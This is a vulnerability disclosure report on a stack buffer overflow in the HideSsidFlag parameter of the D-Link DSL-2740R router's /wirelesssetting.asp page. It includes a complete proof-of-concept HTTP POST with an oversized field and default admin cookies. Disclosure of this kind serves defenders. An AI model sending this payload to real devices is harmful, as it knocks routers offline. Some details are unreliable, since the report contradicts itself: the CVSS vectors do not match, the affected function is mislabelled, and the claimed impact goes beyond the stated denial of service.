




# 96 D-Link DSL-2740R Wireless Router Buffer Overflow Vulnerability in /wirelesssetting.asp Interface HideSsidFlag Parameter

## 1. Basic Information

- Vulnerability Type: Buffer Overflow
- Vulnerability Description: In the D-Link DSL-2740R wireless router with firmware version 1.03_EU, there exists a buffer overflow vulnerability. The HideSsidFlag parameter in the /wirelesssetting.asp interface contains a security vulnerability that allows remote attackers to submit specially crafted requests, causing a buffer overflow error that may lead to sensitive memory information disclosure and denial of service.
- Device Model and Version:
  - D-Link DSL-2740R
  - Firmware Version: 1.03_EU

- Test Device:
  - [x] Simulation Testing

## 2. Technical Vulnerability Principle

- Discovery Process: Fuzzing test on simulated device functional components
- Affected Vulnerability Components:
  - Web Management Service Component
  - Function: Quality of Service Configuration

## 3. Vulnerability Value

- Maturity of Public Information: None
- Number of Public Vulnerability Analysis Reports: None
- Stable Reproducibility: Yes
- Vulnerability Score (According to CVSS)
  - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
  - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploitation Conditions:
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Vulnerability Exploitation Complexity:
    - Privilege Constraint: Authentication Required
    - User Interaction: No victim interaction required
  - Impact Scope: Changed (can affect components beyond the vulnerable component)
  - Impact Metrics:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Exploitation Stability: Stable Reproduction
  - Default Product Configuration: Vulnerability exists in factory-enabled function component
- Vulnerability Exploitation Effect:
  - Denial of Service
- Project Relevance of Vulnerability: None

## 4. PoC

PoC for D-Link DSL-2740R 1.03_EU:

```
POST /cgi-bin/wirelesssetting.asp HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5445
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/cgi-bin/wirelesssetting.asp
Cookie: SESSIONID=3a6da5ea; UID=admin; PSW=admin
Upgrade-Insecure-Requests: 1

HideSsidFlag=00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000&Wlan_WEPEncap=WEP&TKIPAES=TKIPAES&TKIP=TKIP&AES=AES&Wlan_11nModeFlag=0&AdvWlan_MCS=11&ExtChannFlag=0&Wlan_HTBW40M=1&isWPSSupported=0&SSID_INDEX=0&Wlan_cbEnable=on&Wlan_cbEnableFlag=1&Wlan_Ssid=D-Link+DSL-2740R&Wlan_slChannel=6&Wlan_slMode=0&AdvWlan_MCS_1=11&AdvWlan_MCS_4=0&AdvWlan_MCS_0=11&AdvWlan_MCS_6=3&Wlan_cbHide=0&Wlan_slSecType=WEP-64Bits&Wlan_slSecTypeFlag=0&WlanWep_slKeyLen=WEP-64Bits&WlanWep_Key1=12345&WlanWep_Key2=&WlanWep_Key3=&WlanWep_Key4=&WlanWep_slDefKey=1&WlanWep_slAuth=OPEN&WlanWpa_slMode=WPA2PSK&WLANCfgWPATimer=60&WlanWpa_SharedKey=4703c87e1
```

## 5. Vulnerability Principle

When the Web management component receives a POST request, the /wirelesssetting.asp component implementation has a security vulnerability in handling the HideSsidFlag POST key parameter. The HideSsidFlag parameter key can be of arbitrary length and is placed on the stack without proper validation, leading to a stack overflow. Attackers can exploit this vulnerability to overwrite the return address, causing the firmware to crash.









## 6. Basis for 0-day Vulnerability Determination

No relevant vulnerabilities were found when searching for the keywords "wirelesssetting" and "HideSsidFlag" in the CNVD and CVE databases (similar series of vulnerabilities can typically be found by directly searching for the interface name in historical vulnerability records).
